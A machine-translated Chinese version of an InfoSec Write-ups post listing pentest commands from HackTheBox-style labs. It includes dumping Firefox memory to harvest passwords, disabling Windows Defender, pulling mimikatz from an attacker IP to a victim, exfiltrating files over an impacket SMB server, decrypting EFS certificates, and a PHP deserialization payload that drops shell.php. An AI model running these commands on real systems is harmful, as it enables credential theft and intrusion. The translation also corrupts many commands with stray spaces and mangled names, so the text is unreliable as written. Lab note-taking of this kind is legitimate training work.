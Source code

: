 # 有用的 pentest 笔记

> 原文：<https://infosecwriteups.com/useful-pentest-notes-dbfa8b78b38?source=collection_archive---------2----------------------->

## 便于访问的有用命令

![](img/d93ff7ae718d6b347b4fac51f87dfc0f.png)

[去飞溅](https://unsplash.com/photos/gySMaocSdqs)

1.  sudo tail-f/var/log/apache 2/access . log—监视 Apache 活动日志
2.  watch-n5w——监视 apache 活动日志
3.  smb client—list//heist . htb/-U ' hazard '—枚举 SMB 服务器中的用户
4.  /opt/impacket/examples/lookupsid.py hazard:stealth agent @ 10 . 10 . 10 . 149-使用 im packet 中的 lookup sid . py 来枚举已有用户名和密码的其他用户
5.  ps —查找进程的命令
6.  procdump64.exe—转储内存以获取密码的文件
7.  上传 procdump64.exe-使用此命令将特定文件从攻击者机器上传到 evil-wirnm 会话
8.  。\ proc dump 64 . exe-accept EULA-ma 4980-运行转储的命令，其中-ma 是 ps 命令的进程标识符
9.  cmd/c " strings 64 . exe-accept EULA Firefox . exe _ 191129 _ 211531 . DMP > Firefox . exe _ 191129 _ 211531 . txt "--使用上面的命令进行转换。dmp 到。txt 文件
10.  findstr“密码”。/Firefox . exe _ 191129 _ 211531 . txt—在特定的
    文件中查找特定字符串的命令
11.  请注意，strings.exe 和 procdump64.exe 是来自 sysinternals 包的文件
12.  ssh-L 52846:127 . 0 . 0 . 1:52846 Jimmy @ open admin . htb—这种技术称为 ssh 端口转发
13.  还可以从/etc/apache2/sites 中读取配置文件——可以找到关于端口的信息
14.  找到。-f type f-group internal 2 >/dev/null—找出属于内部组用户的文件
15.  set-MP preference-disable real time monitoring＄true-禁用 windows deffender
16.  iwi-uri 10 . 10 . 14 . 22/mimikatz . exe-输出文件 mimikatz.exe-将文件下载到受害者计算机
17.  sudo/usr/bin/im packet-smbserver-SMB 2 support-user test-password test test $(pwd)-启动 SMB server 将文件从受害者的机器传输到攻击者
18.  。\ mimikatz . exe " crypto::system/file:C:\ users \ tolu \ Appdata \ Roaming \ Microsoft \ system Certificates \ My \ Certificates \ 91 ef 5d 08 D1 f 7 C 60 aa 0 E4 ce 73 e 050639 a 6692 f 29/export " " exit "--解密 efs
19.  taskkill/f/im:mimikatz . exe-终止 app
    20)sudo/usr/bin/impacket-SMB server-SMB 2 support-user test-password test test $(pwd)-攻击者机器从 windows 传输文件
20.  net 使用 z:\ \ 10 . 10 . 14 . 22 \ test/user:test test
    复制文件 z:
21.  git clone[https://github . com/aon cyber labs/Windows-Exploit-suggest er . git](https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git)
22.  wps can—URL[https://brain fuck . htb](https://brainfuck.htb)—disable-TLS-checks—API-token pfwusfaq 0 skydzlossczcysw 33 jleyex7 mgr 1 eahksi
23.  wps can—URL[https://brain fuck . htb](https://brainfuck.htb)—disable-TLS-checks—enumerate u—枚举用户
24.  sator.php？arepo = O:14:" database export ":2:{ s:9:" user _ file "；s:9:“shell . PHP”；s:4:“数据”；s:40:“”；} — php 反序列化负载